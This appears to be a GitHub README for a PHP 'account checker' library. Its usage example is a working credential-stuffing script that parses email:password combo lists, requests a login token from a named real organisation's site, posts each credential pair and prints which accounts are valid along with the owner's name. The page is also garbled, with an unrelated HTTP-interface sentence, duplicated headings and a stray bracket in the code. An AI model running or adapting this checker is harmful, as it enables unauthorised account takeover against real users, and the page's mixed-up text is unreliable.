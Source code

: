 Rooquest Checker Acc
================

Note that this is not a HTTP message implementation of its own. It is merely an
interface that describes a HTTP message. See the specification for more details.

Usage
-----
Rooquest Checker Acc
================

This repository is aimed at validating logins in requests


Usage
-----


Usage example below

```php
<?php
$checker = new roquest();
$lista = "email@email.com:password"; //value
$conta = $checker->separarLista(array(':','|'),$lista); //multiexplode

$email = $conta[0]; //value1
$senha = $conta[1]; //value2

$url = "https://www.sp.senac.br/o/senac-content-services/geraTokenLogin"; //url to request
$url_2 = "https://www.sp.senac.br/o/senac-content-services/autenticacaoLogin";  //url to request

$headers = array(
'Accept: */*',
'Accept-Encoding: gzip, deflate, br',
'Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
'Connection: keep-alive',
);

$headers_2 = array(
    'Connection: keep-alive',
    'Content-Type: text/plain',
);

$r1 = $checker->requisiçaoGet($url,$headers,'cookie1','',''); // get request
$token = $checker->puxarDados($r1,'"token":"','"','1'); // get values

$data_2 = '{"email":"'.$email.'","senha":"'.$senha.'","token":"'.$token.'"}';

$r2 = $checker->requisiçaoPost($url_2,$headers_2,$data_2,'cookie1','','');

$validar = $checker->validarConta($r2,'"nome":"','incorreto(s)!'); //message to valid account
$nome = $checker->puxarDados($r2,'"nome":"','"','1'); // get values

if($validar == 1){
    echo "OK! $email:$senha -> $nome";
}
if($validar == 0){
    echo "ERROR! $email:$senha -> Usuário ou senha incorretos";
}

]```

